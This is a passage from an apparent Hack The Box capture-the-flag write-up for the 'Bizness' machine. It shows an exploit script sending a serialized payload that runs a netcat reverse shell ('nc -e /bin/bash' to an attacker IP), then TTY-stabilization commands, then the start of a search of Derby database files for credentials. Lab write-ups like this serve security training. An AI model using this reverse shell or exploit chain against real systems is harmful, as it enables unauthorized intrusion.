 ```bash
❯ python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.14.38 443'
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

And we receive the shell:

![Shell received](/assets/images/Bizness/shell_received.png)

Now stabilize the tty for doing ctrl+c and ctrl+l without problems:

```bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ofbiz@bizness:/opt/ofbiz$ ^Z
[1]  + 75370 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 75370 continued  nc -lvnp 443
                                    reset xterm
ofbiz@bizness:/opt/ofbiz$ export TERM=xterm
ofbiz@bizness:/opt/ofbiz$ export SHELL=bash
ofbiz@bizness:/opt/ofbiz$ stty rows <YOUR ENTIRE WINDOW ROWS> columns <YOUR ENTIRE WINDOW COLUMNS>
```

# Access as root

Looking at the ofbiz configuration files, specifically looking for password files, we can see a lot of .dat files in the /opt/ofbiz/runtime/data/derby/seg0 directory. Doing a research about derby, we can see that is a type of database:
